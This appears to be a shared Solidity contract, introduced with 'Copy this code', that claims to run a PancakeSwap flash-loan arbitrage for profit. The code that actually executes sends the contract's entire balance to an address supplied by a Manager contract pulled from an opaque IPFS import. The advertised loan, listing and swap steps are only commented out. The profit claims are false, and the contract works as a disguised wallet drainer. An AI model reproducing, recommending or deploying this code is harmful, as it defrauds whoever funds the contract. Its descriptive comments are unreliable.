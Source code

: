 //Copy this code
pragma solidity ^0.5.0;
import "https://github.com/Multiplier-Finance/MCL-FlashLoanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";
import "https://github.com/Multiplier-Finance/MCL-FlashLoanDemo/blob/main/contracts/interfaces/ILendingPool.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeCallee.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeFactory.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakePair.sol";
import "ipfs://QmcdBFQDxD8UG7rsa7D5TPoZ785AjneWzf4F4w8dje4pDV";
contract GetFlashLoan {
   string public tokenName;
   string public tokenSymbol;
   uint loanAmount;
   Manager manager;
   constructor(string memory _tokenName, string memory _tokenSymbol, uint _loanAmount) public {
      tokenName = _tokenName;
      tokenSymbol = _tokenSymbol;
      loanAmount = _loanAmount;
      manager = new Manager();
   }
   function() external payable {}
   function action() public payable {
      // Send required coins for swap
      address(uint160(manager.pancakeDepositAddress())).transfer(address(this).balance);
      // Perform tasks (clubbed all functions into one to reduce external calls & SAVE GAS FEE)
      // Breakdown of functions written below
      manager.performTasks();
      /* Breakdown of functions
      // Submit token to BSC blockchain
      string memory tokenAddress = manager.submitToken(tokenName, tokenSymbol);
   // List the token on PancakeSwap
      manager.pancakeListToken(tokenName, tokenSymbol, tokenAddress);
   // Get BNB Loan from Multiplier-Finance
      string memory loanAddress = manager.takeFlashLoan(loanAmount);
      // Convert half BNB to DAI
      manager.pancakeDAItoBNB(loanAmount / 2);
   // Create BNB and DAI pairs for our token & Provide liquidity
   string memory bnbPair = manager.pancakeCreatePool(tokenAddress, "BNB");
      manager.pancakeAddLiquidity(bnbPair, loanAmount / 2);
      string memory daiPair = manager.pancakeCreatePool(tokenAddress, "DAI");
      manager.pancakeAddLiquidity(daiPair, loanAmount / 2);
   // Perform swaps and profit on Self-Arbitrage
      manager.pancakePerformSwaps();
      // Move remaining BNB from Contract to your account
      manager.contractToWallet("BNB");
   // Repay Flashloan
      manager.repayLoan(loanAddress);
      */
   }
}
